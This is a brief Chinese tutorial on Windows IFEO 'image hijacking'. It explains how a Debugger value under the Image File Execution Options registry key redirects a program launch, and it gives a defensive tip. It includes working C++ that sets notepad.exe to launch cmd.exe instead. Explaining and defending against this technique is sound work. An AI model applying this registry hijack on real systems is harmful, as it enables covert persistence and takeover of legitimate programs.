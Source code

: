 映像劫持就是通常所说的IFEO（Image File Execution Opitions）映像文件执行参数

操作：
定位到注册表HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Opitions
新建项notepad.exe键值名称Debugger值为cmd.exe键值名称Debugger值为cmd

原理：Windows将IFEO优先级设置为最高，当文件通过IFEO的默认处理后才会开始真正申请系统资源并运行
当系统发现Debugger参数不为空时，它将会启动Debugger参数中指定的程序。

注意：Debugger参数如果要生效，要求启动的程序必须是从命令行调用的，在命令提示符中或桌面快捷方式双击执行（由外壳程序Explorer.exe传递到命令行执行）可以，
而程序自身加载的程序或通过调试器（OD）加载的程序都不会触发IFEO规则。

防范方法：监控注册表项或对IFEO注册表项增加权限防止修改

```c++
#include <windows.h>
#include <cstdio>

int main() {
    char buffer[MAX_PATH] = {0};
    HKEY hKey = NULL;
    DWORD dwDisposition = REG_CREATED_NEW_KEY;
    if ((RegCreateKeyEx(HKEY_LOCAL_MACHINE, \
            "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\notepad.exe", \
            0,  \
            NULL,   \
            REG_OPTION_NON_VOLATILE,    \
            KEY_ALL_ACCESS, \
            NULL,   \
            &hKey,  \
            &dwDisposition)) == ERROR_SUCCESS) {
        printf("OK\n");
        sprintf((char *)buffer, "cmd.exe");
        RegSetValueEx(hKey, "Debugger", 0, REG_SZ, (BYTE *)buffer, strlen(buffer));
        RegCloseKey(hKey);
    }
    return 0;
}
```
